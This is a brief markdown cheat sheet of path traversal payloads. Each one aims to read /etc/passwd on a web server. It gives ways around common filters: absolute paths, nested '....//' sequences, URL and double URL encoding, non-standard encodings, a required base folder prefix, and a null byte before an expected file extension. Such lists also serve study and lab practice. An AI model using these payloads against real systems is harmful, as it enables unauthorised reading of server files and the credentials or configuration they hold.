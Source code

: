 ## basic

```python
../../../etc/passwd
```

# Common obstacles 

## traversal sequences blocked
#### absolute path
```python
/etc/passwd
```

#### nested traversal sequences 
```python
....//....//....//etc/passwd
```
#### URL encode
- This results in `%2e%2e%2f` and `%252e%252e%252f` respectively. Various non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`
```python
..%252f..%252f..%252fetc/passwd
```

## expected base folder

example: `/var/www/images` 
```python
filename=/var/www/images/../../../etc/passwd
```
## expected file extension

example: `.png`
```python
filename=../../../etc/passwd%00.png
```
